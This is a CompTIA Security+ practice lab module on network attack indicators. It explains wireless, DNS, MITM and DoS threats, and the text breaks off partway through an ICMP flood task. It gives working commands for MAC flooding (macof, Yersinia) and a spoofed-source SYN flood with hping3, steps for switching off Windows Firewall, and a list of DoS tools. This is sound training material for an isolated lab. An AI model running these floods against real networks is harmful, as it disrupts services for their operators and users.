



Introduction
bb1840e4-5425-49a3-9d75-477b8f016ff8
Welcome to the Identifying Indicators of a Network Attack Practice Lab. In this module, you will be provided with the instructions and devices needed to develop your hands-on skills.
dc640c20-9434-45ea-b7c2-6d4d6a196bfc
Learning Outcomes
In this module, you will complete the following exercises:
- Exercise 1 - Wireless
- Exercise 2 - Domain Name System (DNS)
- Exercise 3 - Other Types of Attacks
- Exercise 4 - Malicious Code or Script Execution
After completing this module, you should be able to:
- Verify Domain Reputation
- Perform Media Access Control (MAC) Flooding with Macof
- Perform MAC Flooding using Yersinia
- Perform SYN Flooding Attack
- Switch Off the Windows Firewall on PLABWIN10
- Perform an ICMP Flood Attack
- Perform the Ping of Death Attack
- Conduct an Address Resolution Protocol (ARP) Poisoning Attack
After completing this module, you should have further knowledge of:
- Evil Twin
- Rogue Access Points
- Threats to Bluetooth Devices
- Jamming
- Radio Frequency Identifier (RFID)
- Near Field Communication (NFC)
- Initialization Vector (IV)
- Domain Hijacking
- DNS Poisoning
- DNS Spoofing Attack
- Universal Resource Locator (URL) Redirection
- Distributed Denial-of-Service (DDoS)
- Man-in-the-Browser
- Man-in-the-Middle (MITM)
- MAC Cloning or Spoofing
- PowerShell
- Python
- Bash
- Virtual Basic for Applications (VBA) and Macros
Exam Objectives
The following exam objectives are covered in this lab:
1.4 Given a scenario, analyze potential indicators associated with network attacks.
- Wireless
- Man in the Middle
- Man in the Browser
- Layer 2 Attacks
- Domain Name System (DNS)
- Distributed Denial of Service (DDoS)
- Malicious Code or Script Execution
Note: Our main
focus is to cover the practical, hands-on aspects of the exam
objectives. We recommend referring to course material or a search engine
to research theoretical topics in more detail.
Lab Duration
It will take approximately 1 hour to complete this lab.
c6fa62a3-1a00-4052-8104-258e8cbaa187
Help and Support
For more information on using Practice Labs, please see our Help and Support page. You can also raise a technical support ticket from this page.
Click Next to view the Lab topology used in this module.
d2c53300-f951-45a9-9aa4-3d4ecae69e11
Lab Topology
During your session, you will have access to the following lab configuration.

Depending on the exercises, you may or may not use all
of the devices, but they are shown here in the layout to get an overall
understanding of the topology of the lab.
- PLABDC01 - Windows Server 2019 (Domain Controller)
- PLABDM01 - Windows Server 2019 (Domain Member Server)
- PLABWIN10 - Windows 10 (Domain Member Workstation)
- PLABKALI - Kali 2019.4 (Stand-alone device)
Click Next to proceed to the first exercise.
<
Home |
README >
CompTIA Security+ Practice Labs
Exercise 1 - Wireless
Wireless networks are everywhere now. The biggest
advantage of a wireless network is that it allows user mobility. Unlike
an Ethernet network, where the user is restricted due to an Ethernet
cable being used, the wireless network allows the user to be mobile and
connected within a certain range.
However, there are various threats to wireless networks that you should be aware of.
In this exercise, you will learn about threats to wireless networks and how hackers can attack them.
Learning Outcomes
After completing this exercise, you should have further knowledge of:
- Evil Twin
- Rogue Access Points
- Threats to Bluetooth Devices
- Jamming
- Radio Frequency Identifier (RFID)
- Near Field Communication (NFC)
- Initialization Vector (IV)
Your Devices
This exercise contains supporting materials for Security+.

Evil Twin
In a normal scenario, a user would connect to a Wireless Access Point (WAP). The attacker first finds the target WAP and sets up another WAP with the same SSID. The attacker tends to choose a busy WAP because when the users are not able to connect to the WAP, they may choose the evil twin with the same SSID. The attackers use the same SSID as a legitimate WAP and start broadcasting it. In the evil twin attack, the attacker uses a fraudulent WAP and prompts the victim to enter sensitive information such as a password.
The attacker can use Wi-Fi Pineapple to automate the setup of an Evil Twin.
If the users do not automatically connect to the Evil Twin,
then the attackers can launch a de-authentication or a disassociation
attack, which will disconnect the users from the existing WAP. The users
may then connect to the Evil Twin.
Rogue Access Points
A rogue access point is an access point that has not
been authorized by the network administrator in an organization. For
example, a user brings a wireless access point from home and installs it
on the network by plugging in the Ethernet cable. This is the simplest
example of a rogue access point. The network administrator has not
authorized it, and the users may end up connecting to the rogue access
point. A rogue access point is usually configured to masquerade the SSID
name of an actual wireless access point.
Setting up a rogue access point requires you to have
physical access to the network. The attacker can install the rogue
access point on the physical network, and users can then connect to it.
Over time, the attacker will keep capturing information. A user can also
bring an access point and connect to the company’s network and offer
connectivity to the other users. This user can then capture the
information that they were not supposed to have access to.
Threats to Bluetooth Devices
Bluetooth is an open standard wireless technology that
is used to exchange information and files between two devices.
Bluetooth works only with short‐range radio frequencies. When two
devices connect with each other using a Bluetooth connection, they
create a Wireless Personal Area Network (WPAN).
Some threats to Bluetooth devices are:
- Bluejacking - Sends an unsolicited message to another device that has its Bluetooth connection open.
- Bluesniping - Uses a directional antenna to
establish connections with Bluetooth‐enabled devices. Bluetooth has a
distance limitation, which may prevent a hacker from establishing a
connection. In this situation, the hacker can use a directional antenna
to establish connections for up to a mile (1.6 kilometers).
- Bluesnarfing - Uses the Bluejacking method to
connect to the device, then gain access to the address book, contact
information, email, and text messages. Bluesnarfing uses bluetooth to
steal information from a wireless device. A Bluesnarfing attack can
occur using unintended Bluetooth pairing.
- War Nibbling/Bluecasing - A hacker tries to
find unsecured or unpatched Bluetooth connections, then steal
information. War Nibbling is similar to War Diving, which is performed
on the wireless network.
Jamming
The jamming attack is a Denial of Service (DoS) attack
against the wireless medium. The attacker can use various devices or
equipment to do this. For example, the attacker can generate the
interference signals to block any type of communication being sent to
the channel that was being used. The idea is to prevent users from using
a legitimate WAP. Jamming could be used as a precursor to the evil twin
attack. When the attacker jams the signals, the users tend to connect
to the WAP with the same name, which leads to the evil twin attack.
Two types of jammers can achieve jamming. An Active jammer always keeps the channel busy and blocks the communication. The Reactive jammer keeps quiet until a session is established using the channel.
Radio Frequency Identifier (RFID)
RFID is being used across different industries.
One of the most common uses is using them as tags to identify a piece
of hardware or even an item in the supply chain. A chip is placed on
each device or item, and readers can communicate with the chips. Each
chip is assigned a unique identifier. The inventory management system
tracks both the chips and readers.
Just like any other technology, RFID is also prone to various types of attacks, which are:
- Eavesdropping - an unauthorized reader listens to the communication between the RFID card and the reader.
- Replay - the communication between the
legitimate reader and the card is recorded and played at a later time.
The information can be replayed to the legitimate reader to gain access
to the information.
- Sniffing - an attacker sniffs the communication between the card and the reader.
- Man-in-the-middle (MITM) - the attacker
intercepts the original communication between the reader and the card
and then replaces the communication with its own.
- Cloning - a method of duplicating the card information to another card.
- Spoofing - occurs after the cloning part is complete. With the cloned card, the attacker can access information.
Near Field Communication (NFC)
Near Field Communication (NFC) includes two wireless devices communicating through touching or bringing them in close proximity. Several RFID attacks also apply to NFC. These attacks are:
- Eavesdropping
- Data modification
- MITM
Initialization Vector (IV)
In an Initialization Vector (IV) attack, by learning the plaintext of one packet, the attacker tries to compute the RC4 keystream generated by the IV. Other packets sent by the same IV can
be decrypted using this keystream. Using this method, the attacker can
build a decryption table, using every possible set, to decrypt all the
packets sent over a wireless connection.
7429868b-128c-4069-95a9-7246a6a9e5a3
<
Home |
README >
CompTIA Security+ Practice Labs
Exercise 2 - Domain Name System (DNS)
A Domain Name System (DNS) is responsible for name resolution. Without DNS,
it would not have been possible to run the Internet. It provides the
domain name to IP address mapping. You could simply type a URL and get
to the desired website rather than remembering the IP address.
It is also important to note that DNS is one of
the oldest protocols and has several vulnerabilities and security
flaws. In this exercise, you will learn about various types of attacks
that are possible on DNS.
Learning Outcomes
After completing this exercise, you should be able to:
After completing this exercise, you should have further knowledge of:
- Domain Hijacking
- DNS Poisoning
- DNS Spoofing Attack
- Universal Resource Locator (URL) Redirection
Your Devices
You will be using the following devices in this lab. Please power these on now.
- PLABDC01 - Windows Server 2019 (Domain Controller)
- PLABWIN10 - Windows 10 (Domain Member Workstation)

Domain Hijacking
In this attack, the attacker gains access to the
domain registration to get hold of the primary DNS information. Then the
attacker simply changes the domain information to point to a domain
server controlled by the attacker.
DNS Poisoning
DNS poisoning also referred to as DNS spoofing,
corrupts the DNS data residing in the DNS cache. When a DNS poisoning
attack is successful, the DNS server will return wrong IP addresses when
resolving a host or domain name. This results in traffic being diverted
to another computer, often to the attacker's computer, where the
attacker can decipher the data sent. Two key prevention methods can be
setting short TTL times and clearing the DNS caches of local systems and
network devices at regular intervals. A high-level ISP in the US
accidentally fetched records from China, which blocked YouTube and
Facebook in the US. This is a classic example of DNS poisoning.
DNS Spoofing Attack
DNS spoofing refers to an attack that diverts a domain
name to an incorrect IP address. When a victim searches for a domain
name mapped to an incorrect IP address of the attacker’s system, the
user is diverted to it. Therefore, the victim does not get to see the
correct Website, but instead, the attacker’s Website is displayed.
For example, a victim attempts to connect to
www.google.com. Instead of reaching www.google.com, the victim is
redirected to a similar-looking Website on the attacker’s system. In DNS
spoofing, www.google.com is mapped to the IP address of the attacker’s
choice.
Universal Resource Locator (URL) Redirection
URL redirection is a method of sending a client
request for one URL to another URL. For example, if you send a request
for www.microsoft.net, it is automatically redirected to another URL,
such as www.microsoft.com. There are several reasons due to which URL
redirection can be performed. Some of the reasons can be simple, such as
shortening the URL or redirecting the broken URLs. There can also be
reasons that if an organization has multiple domain names, such as
www.example.net, www.example.biz, or any other URL, the organization
wants all users accessing these URLs to be redirected to
www.example.com.
However, hackers use URL redirection for malicious
purposes. A hacker may simply redirect your request when you click on a
URL to a website hosted only for malware distribution.
Task 1 - Verify Domain Reputation
Domain reputation defines the health status of the
domain in the context of messaging. When a domain is used for sending
messages over the Internet, its health is determined by various factors,
such as bounce rates and spam complaints. For example, if your
organization sends a large number of messages to unknown recipients,
those messages may be considered as spam and going forward, the number
of messages marked as spam will affect the domain reputation.
In this task, you will learn to explore a domain reputation tool. To do this, perform the following steps:
Step 1
Ensure you have powered on all the devices listed in the introduction and connect to PLABWIN10.
Click the Microsoft Edge icon in the taskbar.
Figure 2.1 Screenshot of PLABWIN10: Showing the desktop of PLABWIN10 and clicking the Microsoft Edge icon in the taskbar.
Step 2
The Intranet Webpage is displayed. Type the following URL in the address bar:
https://talosintelligence.com/reputation_center/
Press Enter.
Figure 2.2 Screenshot of PLABWIN10: Entering the URL in the address bar of Microsoft Edge.
Step 3
In the Reputation Lookup text box, type the following URL:
www.google.com
Press Enter.
Figure 2.3 Screenshot of PLABWIN10: Entering the URL in the Reputation Lookup text box.
Step 4
You may get the following Webpage. The Web browser is
being checked. After the checking process is completed, you will be
redirected to the results page.
Figure 2.4 Screenshot of PLABWIN10: Checking the Web browser before redirecting to the required Webpage.
Step 5
When you see the results page, scroll down to the middle of the Webpage. Notice that the domain reputation is listed.
Figure 2.5 Screenshot of PLABWIN10: Showing the domain reputation in the middle of the page.
Step 6
After evaluating the domain reputation, scroll down further. Currently, you are on the IP ADDRESSES tab. Click the EMAIL VOLUME HISTORY tab.
 Figure 2.6 Screenshot of PLABWIN10: Clicking the EMAIL VOLUME HISTORY tab.
Figure 2.6 Screenshot of PLABWIN10: Clicking the EMAIL VOLUME HISTORY tab.
Step 7
Notice that the Email volume per day status is shown.
You can mouse over any of the pyramids shown and get the volume
equivalent to the Richter scale.
Figure 2.7 Screenshot of PLABWIN10: Viewing the Email volume per day on the graph.
a5adbee1-b3d4-422f-907b-2999d763f275
After reviewing the information on this Webpage, close the Web browser.
Leave all devices in their current state and proceed to the next exercise.
<
Home |
README >
CompTIA Security+ Practice Labs
Exercise 3 - Other Types of Attacks
As more and more systems and services make their
presence on the Internet, the attack surface increases. Right from a
simple, harmless Web browser or a critical Web server, everything on the
Internet can be considered unsafe.
In this exercise, you will learn about different types of attacks that can cause security issues.
Learning Outcomes
After completing this exercise, you should be able to:
- Perform Media Access Control (MAC) Flooding with Macof
- Perform MAC Flooding using Yersinia
- Perform SYN Flooding Attack
- Switch Off the Windows Firewall on PLABWIN10
- Perform an ICMP Flood Attack
- Perform the Ping of Death Attack
- Conduct an Address Resolution Protocol (ARP) Poisoning Attack
After completing this exercise, you should have further knowledge of:
- Distributed Denial-of-Service (DDoS)
- Man-in-the-Browser
- Man-in-the-Middle (MITM)
- MAC Cloning or Spoofing
Your Devices
You will be using the following devices in this lab. Please power these on now.
- PLABDM01 - Windows Server 2019 (Domain Member Server)
- PLABWIN10 - Windows 10 (Domain Member Workstation)
- PLABKALI - Kali 2019.4 (Stand-alone device)
Distributed Denial-of-Service (DDoS)
A Denial of Service (DoS) attack is conducted using
one system, which sends high traffic to the target system. The DoS
attack is a one to one kind of attack in which a single system, used by
the attacker, targets another system, which is usually a server. When
this attack is launched on a target, it drains out the system resources.
A DoS attack can impact an application, which is running on a server, a
network, or even other technologies that may be part of the network.
Depending on where the attack has occurred, it can take down an
application, network, or whatever technology is facing the Internet.
Eventually, when the target runs out of system resources, it becomes
unavailable to provide services to legitimate users.
Distributed Denial of Service (DDoS) has the same
intent, but its execution method is slightly different. Instead of using
a single system, it may use hundreds or thousands (or even more)
systems known as zombies or bots to attack one or more target systems.
This type of attack sometimes becomes slightly difficult to detect as
the traffic originates from different systems, which have different IP
addresses.
Key tools used for DoS/DDoS attack:
- Low Orbit Ion Cannon (LOIC)
- HOIC
- XOIC
- HTTP Unbearable Load King (HULK)
- UDP Flooder
- R-U-Dead-Yet (RUDY)
- Nemesy
- ToR's Hammer
- Pyloris
- OWASP Switchblade
- DAVOSET
Man-in-the-Browser
The man-in-the-browser attack is conducted by
installing a trojan as a Web browser extension. The trojan can be sent
to the user’s Email account as an attachment, and if the user opens the
attachment, the trojan installs itself as an extension in the Web
browser.
After the extension is installed, all types of
communication between the Web browser and the Web server can not only be
intercepted but also modified. For example, with a malicious extension
installed, if the user performs a financial transaction, the extension
can capture the inputs, such as user credentials, and later use it to
conduct more financial transactions. The malicious extension works in a
stealth mode, and therefore, the user does not get to know any details
of the transactions taking place.
Man-in-the-Middle (MITM)
Man-in-the-middle (MITM) is a type of attack in which
an attacker is able to intercept the communication between two users.
The attacker is also able to change the conversation if he or she wants
to. The attacker's main goal is to listen to the conversation between
both parties and intercept the conversation, which can be used later.
MITM attacks can be performed using different methods, such as:
- ARP Poisoning
- ICMP Redirects
- DNS Poisoning
- Man in the browser
MAC Cloning or Spoofing
Each device on a network has a MAC address, which is
globally unique. An organization with a wireless network can choose to
implement MAC filtering, which will allow the system to connect only if
its MAC address is listed in the WAP configuration. This means that only
the devices whose MAC addresses are listed in the WAP configuration can
access the wireless network. Any device that does not have its MAC
address listed in the WAP configuration will be denied access.
However, an attacker, if he or she manages to find any
of the MAC addresses listed in the WAP configuration, can use the same
MAC address on their own system or laptop. WAP will not differentiate
between the device with the real MAC address and a device with the
spoofed MAC address.
Now, the attacker’s system has the captured MAC
address. The wireless network will check for the MAC address, and since
it is whitelisted in its configuration, the attacker’s system will be
able to connect.
Task 1 - Perform Media Access Control (MAC) Flooding with Macof
The macof tool can be used to flood a switch with a
fake MAC address. When this tool sends a list of MAC addresses to a
switch, it fills the switch's CAM table. Post this, the switch cannot
save any new MAC address and starts sending information to all the
ports. In this task, you will learn to use macof to perform MAC
flooding.
Step 1
Ensure that all the required devices are powered on. Connect to PLABKALI. In the Enter your username text box, type the following:
root
In the Enter your password text box, type the following:
Passw0rd
Click Log In or press Enter.
Figure 3.1 Screenshot of PLABKALI: Logging on to the Kali Linux.
Step 2
After a successful login, the desktop is displayed.
 Figure 3.2 Screenshot of PLABKALI: Displaying the desktop after a successful login.
Figure 3.2 Screenshot of PLABKALI: Displaying the desktop after a successful login.
Step 3
On the desktop, right-click and select Open Terminal Here.
 Figure 3.3 Screenshot of PLABKALI: Selecting the Open Terminal Here option from the context menu.
Figure 3.3 Screenshot of PLABKALI: Selecting the Open Terminal Here option from the context menu.
Step 4
In the older versions of Kali Linux, macof was
pre-installed. However, you need to install the dsniff package, which
contains various tools, including macof. To begin the installation of
dsniff, type the following command:
apt-get install dsniff -y
Press Enter.
Alert: You may receive an error when attempting to install dsniff.
If this occurs, type the following commands:
sudo apt-get remove firmware-b43-installer
When provided with a prompt asking if you wish to continue, type Y and hit enter. Once this command has completed, type the following:
sudo apt update
Press Enter. Once the command has completed, run the command to install dsniff again.
Figure 3.4 Screenshot of PLABKALI: Entering the command to install dsniff.
Step 5
The installation process for dsniff starts.
Figure 3.5 Screenshot of PLABKALI: Showing the installation of dsniff.
Step 6
The installation of dsniff does not take a long time. After the installation is completed, you are back on the command prompt.
Figure 3.6 Screenshot of PLABKALI: Showing the command prompt after the installation of dsniff.
Step 7
Clear the screen by entering the following command:
clear
Type the following command to initiate MAC flooding:
macof -i eth0 -n 100
In this command, eth0 is the interface used for sending out packets and -n is used for sending several MAC addresses.
Figure 3.7 Screenshot of PLABKALI: Entering the macof command.
Step 8
The packets are sent out using different MAC addresses.
Figure 3.8 Screenshot of PLABKALI: Showing the packets being sent out using different MAC addresses.
Task 2 - Perform MAC Flooding using Yersinia
Just like the macof tool, you can use Yersinia to perform MAC flooding.
In this task, you will learn to use Yersinia. To do this, perform the following steps:
Step 1
Connect to PLABKALI. Ensure that you are on the command prompt. Clear the screen with the clear command if required.
At the command prompt, type the following command:
yersinia -G
Press Enter.
Note: The -G parameter is to display the graphical interface.
Figure 3.9 Screenshot of PLABKALI: Entering the yersinia command to start it in GUI.
Step 2
The Yersinia window is displayed. Note that you are prompted with a warning that it is an alpha version.
Click OK.
Figure 3.10 Screenshot of PLABKALI: Clicking OK on the Alpha version dialog box.
Step 3
The Yersinia window is now fully visible. Ensure that you are on the CDP tab in the right pane.
Click Launch attack.
 Figure 3.11 Screenshot of PLABKALI: Clicking Launch Attack on the Yersinia window.
Figure 3.11 Screenshot of PLABKALI: Clicking Launch Attack on the Yersinia window.
Step 4
The Choose attack dialog box is displayed. The sending CDP packet option is selected by default.
Select flooding CDP table and click OK.
Figure 3.12 Screenshot of PLABKALI: Selecting flooding CDP table and clicking OK.
Step 5
Note that flooding is initiated instantly.
 Figure 3.13 Screenshot of PLABKALI: Showing the CDP flooding in the Yersinia window.
Figure 3.13 Screenshot of PLABKALI: Showing the CDP flooding in the Yersinia window.
Step 6
Select a value in the upper right pane. Note that the
bottom left pane displays the source MAC address. Select a number of
them and note that each one has a different MAC address.
Note: During this attack, the device may become unresponsive.
 Figure
3.14 Screenshot of PLABKALI: Selecting a value in the upper right pane
and then showing the details in the lower left pane.
Figure
3.14 Screenshot of PLABKALI: Selecting a value in the upper right pane
and then showing the details in the lower left pane.
Step 7
Click List attacks.
Figure 3.15 Screenshot of PLABKALI: Clicking List Attacks in the Yersinia window.
Step 8
The Running Attacks dialog box is displayed. Click Stop.
Figure 3.16 Screenshot of PLABKALI: Clicking Stop on the Running Attacks dialog box.
Step 9
Note that the attack is now stopped. Click Quit on the Running Attacks dialog box.
Close the Yersinia window.
Figure 3.17 Screenshot of PLABKALI: Clicking Quit on the Running Attacks dialog box.
Task 3 - Perform SYN Flooding Attack
SYN flooding, a type of denial-of-service (DoS)
attack, is conducted by an attacker to send a flood of SYN packets to a
target. When there is a flood of a large number of SYN packets, the
target cannot respond to them. In responding to these SYN packets, the
target system starts consuming all its resources and eventually exhausts
them. As a consequence of running out of system resources, the target
becomes non-responsive or hangs. In some cases, the target also crashes.
To conduct SYN flooding, perform the following steps:
Step 1
Ensure you have powered on all the devices listed in the introduction and connect to PLABKALI. Ensure that the terminal window is open. Clear the screen if required.
In the terminal window, type the following command:
hping3 -S 192.168.0.3 -a 192.168.0.4 --flood
In this command, the target system is 192.168.0.3, and the attacker is 192.168.0.4.
Figure 3.18 Screenshot of PLABKALI: Entering the hping3 command in the terminal window.
Step 2
The hping3 command starts.
Figure 3.19 Screenshot of PLABKALI: Showing the execution of the hping3 command.
Step 3
Connect to PLABWIN10. In the Type here to search text box, type the following:
Wireshark
Select Wireshark from the search results.
Figure 3.20 Screenshot of PLABWIN10: Searching for Wireshark and then selecting Wireshark from the search results.
Step 4
The Wireshark window is now open.
Note: If you get a splash screen about a new version of Wireshark, close the splash screen.
From the adapter list, select Ethernet.
In the upper left corner, click the Start capturing packets icon.
 Figure 3.21 Screenshot of PLABWIN10: Selecting Ethernet and then clicking Start capturing packets.
Figure 3.21 Screenshot of PLABWIN10: Selecting Ethernet and then clicking Start capturing packets.
Step 5
The SYN packets are now being captured.
Note that there is a flood of SYN packets that are sent to 192.168.0.3, which is PLABWIN10.
Figure 3.22 Screenshot of PLABWIN10: Showing the SYN packets in the Wireshark window.
Step 6
PLABWIN10 is now running out of system
resources. The system will most likely become unresponsive. Attempt to
click inside the Wireshark window or on the Start charm. You will notice
that the PLABWIN10 system does not respond.
Note: You may get
to see the out of memory error. However, the error may or may not
occur, depending on your system resources and applications running at
the time of packet capture. You might see other symptoms, such as the PLABWIN10 window closing abruptly.
Figure 3.23 Screenshot of PLABWIN10: Showing the SYN packets in the Wireshark window.
Step 7
Switch to PLABKALI. SYN flooding is still in progress.
 Figure 3.24 Screenshot of PLABKALI: Showing the SYN flood attack in progress.
Figure 3.24 Screenshot of PLABKALI: Showing the SYN flood attack in progress.
Step 8
Enter CTRL + c to kill the command.
Figure 3.25 Screenshot of PLABKALI: Terminating the hping3 command.
Step 9
Switch back to PLABWIN10. Close the Wireshark window.
Note: On the Unsaved packets message box, click Stop and Quit without Saving.
Figure 3.26 Screenshot of PLABWIN10: Closing the Wireshark window.
Step 10
You should now be on the desktop.
 Figure 3.27 Screenshot of PLABWIN10: Showing the desktop of PLABWIN10.
Figure 3.27 Screenshot of PLABWIN10: Showing the desktop of PLABWIN10.
Task 4 - Switch Off the Windows Firewall on PLABWIN10
You will need to switch off the Windows Firewall to perform an attack on PLABWIN10.
There are attacking methods that you can use to bypass the Windows or
any other firewall running on the target. However, for the sake of this
module, you will switch off the Windows Firewall and proceed with the
remaining tasks.
To switch off the Windows Firewall on PLABWIN10, perform the following steps:
Step 1
Ensure that you have connected to PLABWIN10 and logged into the system.
Note that the PLABWIN10 desktop is displayed.
Figure 3.28 Screenshot of PLABWIN10: Showing the desktop of PLABWIN10.
Step 2
In the Type here to search text box, type the following:
windows firewall
From the search results, select the Windows Defender Firewall.
Figure
3.29 Screenshot of PLABWIN10: Searching for windows firewall and then
selecting Windows Defender Firewall from the search results.
Step 3
The Windows Defender Firewall window is displayed. On the Help protect your PC with Windows Defender Firewall page, click Turn Windows Defender Firewall on or off in the left pane.
Figure 3.30 Screenshot of PLABWIN10: Clicking Turn Windows Firewall on or off in the left pane.
Step 4
On the Customize settings for each type of network page, select Turn off Windows Defender Firewall (not recommended) for Domain, Private, and Public network.
Click OK.
Figure
3.31 Screenshot of PLABWIN10: Selecting Turn off Windows Firewall (not
recommended) for Domain, Private, and Public network.
Step 5
On the Help protect your PC with Windows Defender Firewall page, notice that Windows Defender Firewall is now turned off for Domain, Private, and Public network.
Figure 3.32 Screenshot of PLABWIN10: Verifying the Windows Firewall status on the Windows Defender Firewall window.
Step 6
Close the Windows Defender Firewall window.
Figure 3.33 Screenshot of PLABWIN10: Closing the Windows Defender Firewall window.
Step 7
You should now be back on the desktop.
Figure 3.34 Screenshot of PLABWIN10: Showing the desktop of PLABWIN10.
Task 5 - Perform an ICMP Flood Attack
Like the SYN flood attack, there is another type of
flood attack known as ICMP flooding, which is also a denial-of-service
(DoS) attack. In this type of attack, instead of sending SYN packets,
the attacker sends a flood of ICMP packets to a target system.
In this task, you will learn to conduct ICMP flooding. To conduct ICMP flooding, perform the following steps:
Step 1
Ensure you have powered on all the devices listed in the introduction and connect to PLABWIN10.
Select Wireshark from the Start menu.
Figure 3.35 Screenshot of PLABWIN10: Selecting Wireshark from the start menu.
Step 2
The Wireshark Network Analyzer window is displayed.
Select Ethernet and click the Start capturing packets icon.
Figure 3.36 Screenshot of PLABWIN10: Selecting Ethernet and clicking Start capturing packets.
Step 3
The packet capture is in progress.
Figure 3.37 Screenshot of PLABWIN10: Showing the packet capture in progress.
Step 4
Switch to PLABKALI. The terminal window should be open.
Clear the screen by entering the following command:
